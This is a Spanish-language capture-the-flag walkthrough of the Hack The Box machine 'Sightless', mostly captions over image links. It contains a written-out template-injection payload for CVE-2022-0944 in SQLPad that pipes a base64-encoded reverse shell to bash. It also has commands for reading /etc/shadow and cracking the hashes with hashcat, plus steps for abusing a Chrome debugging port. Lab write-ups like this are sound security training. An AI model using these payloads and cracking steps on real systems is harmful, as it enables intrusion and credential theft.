Escaneo de puertos
nmap -sVC -p- --open -sS --min-rate 5000 -v -n -Pn -oN sightless_scan 10.10.11.32

Encuentro este subdominio en un button
sqlpad.sightless.htb

Para acceder al servicio FTP necesito SSL (Secure Socket Layer)

Encuentro la versión de SQLPad

CVE-2022-0944 - Docker Shell

Introducimos en database el reverse shell en base 64

{{ process.mainModule.require('child_process').exec('echo reverse_encoded=|
base64 -d|bash') }}
En new connection introducimos los parámetros




Obtenemos el reverse y estamos como root

En el directorio home tenemos 2 users

Tras hacer footprint veo que puedo ver el archivo shadow y el archivo shadow
Por lo que puedo intentar crackear las contraseñas del usuario Michael


Con hashcat lo crackeo y consigo la pass del user michael
hashcat -m 1800 -a 0 shadow-hash.txt /usr/share/wordlists/rockyou.txt
Con la contraseña y el usuario podemos acceder como usuario a través de ssh

Tenemos el usuario john
Pasamos linpeas.sh para buscar una escalada de privilegios
Vemos los procesos que se ejecutan como el usuario john


Tiene el parámetro --remote-debugging-port=0 por lo que el puerto se pone al azar
Usaré el proceso home/john/automation/chromedriver --port=51801
Según esto hay que hacer un portforwarding
Chrome Remote Debugger Pentesting | Exploit Notes (hdks.org)

Ahora se pasará a un puerto random

Usaremos Metasploit para hacer debugging
